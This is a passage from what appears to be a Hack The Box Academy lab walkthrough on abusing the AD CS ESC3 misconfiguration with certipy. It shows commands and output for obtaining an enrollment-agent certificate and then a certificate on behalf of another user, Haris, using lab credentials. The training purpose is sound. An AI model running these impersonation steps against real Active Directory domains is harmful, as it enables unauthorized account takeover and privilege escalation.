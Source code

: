 Before abusing `ESC3`, students need to add vHost entries for the domain name `lab.local`, the CA's name `lab-LAB-DC-CA`, and its machine's DNS name `LAB-DC.lab.local` (which is also the DC's DNS name):

Code: shell

```shell
sudo sh -c 'echo "STMIP lab.local lab-LAB-DC-CA LAB-DC.lab.local" >> /etc/hosts'
```

```shell-session
┌─[us-academy-1]─[10.10.15.48]─[htb-ac-413848@htb-7vhyh3ar8o]─[~]
└──╼ [★]$ sudo sh -c 'echo "10.129.228.236 lab.local lab-LAB-DC-CA LAB-DC.lab.local" >> /etc/hosts'
```

Subsequently, to abuse `ESC3`, students first need to use the `req` command of `certipy`, specifying the template `ESC3` for the `-template` option; students will attain a `PFX` certificate for the `blwasp` user:

Code: shell

```shell
certipy req -u blwasp@lab.local -p Password123! -ca lab-LAB-DC-CA -template ESC3
```

```shell-session
┌─[eu-academy-1]─[10.10.15.2]─[htb-ac-413848@htb-m83evvx77g]─[~]
└──╼ [★]$ certipy req -u blwasp@lab.local -p Password123! -ca lab-LAB-DC-CA -template ESC3

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 71
[*] Got certificate with UPN 'blwasp@lab.local'
[*] Certificate object SID is 'S-1-5-21-2570265163-3918697770-3667495639-1103'
[*] Saved certificate and private key to 'blwasp.pfx'
```

Utilizing the certificate, students then need to use the `req` command of `certipy`, specifying the `User` template for the `-template` option, and the user `Haris` for the `-on-behalf-of` option; students will discover that `Haris`'s [objectSID](https://learn.microsoft.com/en-us/windows/win32/adschema/a-objectsid) is `S-1-5-21-2570265163-3918697770-3667495639-2602`:

Code: shell

```shell
certipy req -u blwasp@lab.local -p Password123! -ca lab-LAB-DC-CA -template User -on-behalf-of Haris -pfx blwasp.pfx
```

```shell-session
┌─[eu-academy-1]─[10.10.15.2]─[htb-ac-413848@htb-m83evvx77g]─[~]
└──╼ [★]$ certipy req -u blwasp@lab.local -p Password123! -ca lab-LAB-DC-CA -template User -on-behalf-of Haris -pfx blwasp.pfx

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 72
[*] Got certificate with UPN 'haris@lab.local'
[*] Certificate object SID is 'S-1-5-21-2570265163-3918697770-3667495639-2602'
[*] Saved certificate and private key to 'haris.pfx'
```
